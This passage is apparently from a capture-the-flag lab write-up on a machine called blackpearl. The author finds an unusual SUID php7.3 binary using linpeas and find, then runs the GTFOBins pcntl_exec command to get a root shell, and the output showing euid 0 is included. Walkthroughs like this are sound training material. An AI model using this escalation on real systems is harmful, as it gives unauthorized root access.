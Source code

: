 ~~~
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                            
strings Not Found                                                                                                                                                                                                                           
strace Not Found                                                                                                                                                                                                                            
-rwsr-xr-- 1 root messagebus 50K Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                                                                                   
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 427K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 4.6M Feb 13  2021 /usr/bin/php7.3 (Unknown SUID binary!)
-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd

< ---- SNIP ---- >
~~~
Linpeas identified an unknown SUID binary for PHP7.3. Let's see if I can enumerate this manually as well by entering the following command: **find / -user root -perm -4000 -print 2>/dev/null**


~~~
alek@blackpearl:/tmp$ find / -user root -perm -4000 -print 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.3
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
alek@blackpearl:/tmp$ 
~~~
Searching on [GTFObins for PHP SUID](https://gtfobins.github.io/gtfobins/php/#suid) I found a route to gain shell as root.
First I declare a variable CMD with the **/bin/sh** binary.
~~~
alek@blackpearl:/tmp$ CMD="/bin/sh"
~~~
Next I run the binary as described on GTFObins to gain a shell as root with the following command: **/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"**
After that step I check who I am on the machine.
~~~
alek@blackpearl:/tmp$ /usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami;id;hostname;pwd;ls
root
uid=1000(alek) gid=1000(alek) euid=0(root) groups=1000(alek),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
blackpearl
/tmp
~~~